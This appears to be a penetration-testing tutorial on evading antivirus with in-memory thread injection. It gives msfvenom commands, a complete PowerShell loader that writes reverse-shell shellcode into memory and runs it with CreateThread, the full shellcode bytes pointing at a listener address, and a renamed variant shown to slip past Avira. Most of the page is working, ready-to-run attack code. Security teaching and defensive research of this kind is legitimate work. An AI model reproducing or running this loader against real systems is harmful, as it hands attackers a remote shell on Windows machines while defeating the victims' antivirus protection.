




# Evasion Via Thread Injection

This example will show how to achieve [In-Memory Process Injection](../bypassing-detection.md#remote-process-memory-injection) via PowerShell. Assume that the target is known to be running Windows 11 and using the AV [Avira Free Security](https://www.avira.com/en/free-security) on their machine. With this in mind the attacker is going to attempt to create a PowerShell script that launches a reverse shell without tripping the AV.

## Setting Up The VM

The attacker is assumed to have access to a Windows 11 client. Once on that machine start by launching Avira and ensure Real-Time Protection is on by navigating to `Security > Protection Options` and enabling the setting:

<figure><figcaption><p>Enabling Real-time Protection in Avira</p></figcaption></figure>

From here it is possible to ensure the AV is working by running an easily-detectable malicious binary. E.g. something straight out of `msfvenom`:


```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$rev_ip LPORT=$rev_port --platform windows -f exe -o rev.exe
```


Transferring `rev.exe` to the VM and attempting to execute it should result in a blocked message of some sort:

<figure><figcaption><p>Blocked rev.exe</p></figcaption></figure>

Opening the Quarantine should show the malicious file:

<figure><figcaption><p>Malicious rev.exe in Quarantine</p></figcaption></figure>

## Creating The Script

This attack will leverage a PowerShell script instead of a PE as discussed [here](../bypassing-detection.md#pe-injection-overview). The main difference lies in the fact that this will target the currently executing process, which in here will be the x86 PowerShell interpreter.&#x20;

A very powerful feature of PowerShell is its ability to [interact with the Windows API](https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/). This allows the implementation of the In-Memory Injection as a script. One of the main benefits of executing a script rather than a PE is that it is difficult for antivirus manufacturers to determine if the script is malicious as it's run inside an interpreter and the script itself isn't executable code. Nevertheless, some AV products (such as [Windows Antimalware Scan Interface](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal#windows-components-that-integrate-with-amsi)) handle malicious script detection with more success than others.

Regardless, the basic outline for an In-Memory Injection PowerShell script is as follows:


```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```


The code functions as follows:

1. **Lines 1 - 9:** string representation of code to import [`VirtualAlloc()`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc), [`CreateThread()`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread), and [`memset()`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/memset-wmemset?view=msvc-170) from `kernel.dll` and `msvcrt.dll` stored into `$code` variable
2. **Lines 11 - 12:** as discussed in the [linked blog post](https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/) from above, the `Add-Item` cmdlet is used to define .NET types that will be made available to a PowerShell session. It can be used to compile C# code on the fly In this instance it is used to execute the `$code` variable and import the functions from `kernel.dll` and `msvcrt.dll`
3. &#x20;**Lines 14 - 15:** write shellcode here (more on this later). Stored as bytes-array `$sc`
4. **Lines 17 & 19:** used to set to buffer size to 1000 bytes (or length of shellcode, `$sc`, if that is more than 1000 bytes)
5. **Line 21:** use `VirtualAlloc()` to create a buffer in the running process's memory
6. **Line 23:** write the shellcode (`$sc`) into the created buffer using `memset()`
7. **Line 25:** in-memory written payload is executed in a separate thread using the `CreateThread` API call

All that is missing at this stage is the shellcode. It can be created via `msfvenom`:


```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$rev_ip LPORT=$rev_port -f powershell -v sc
```


This results in the output:


```
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x2d,0x9f,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5
```


Keep in mind this payload is x86 and therefore the **PowerShell (x86) interpreter will need to be used** to run it. This can then be incorporated into the script:


```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x2d,0x9f,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```


While it was mentioned earlier that this should not be done, for illustration purposes this script will be run through VirusTotal. (AntiScan.Me was not an option as it does not accept `.ps1` files):

<figure><figcaption><p>Inject-Memory.ps1 in VirusTotal</p></figcaption></figure>

Unfortunately 26/58 AV engines, including Avira, detect this script as malicious. Attempting to run it does indeed result in it being blocked.

As mentioned, scripts are just interpreted text files. They are not easily fingerprinted like binary files, which have a more structured data format.

In order to catch malicious scripts, AV vendors often rely on static string signatures related to meaningful code portions, such as variables or function names.

Perhaps this AV engine could be bypassed by simply using more generic names for things in the script:


```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = 
  Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $var1 = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x2d,0x9f,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```


This version of the code has renamed `$sc` to `$var1` and `$winFunc` to `$var2`. It also changed the `-Name` in line 12 from `Win32` to `iWin32`. Transferring this updated version and running a scan shows that it no longer trips Avira's alarms. If the file were detected as malicious it would appear in the scan results:

<figure><figcaption><p>Clean Avira scan after transferring Run-Item.ps1 to VM</p></figcaption></figure>

This was a highly simplified example but still illustrates the principles of how to edit a script for evasion.
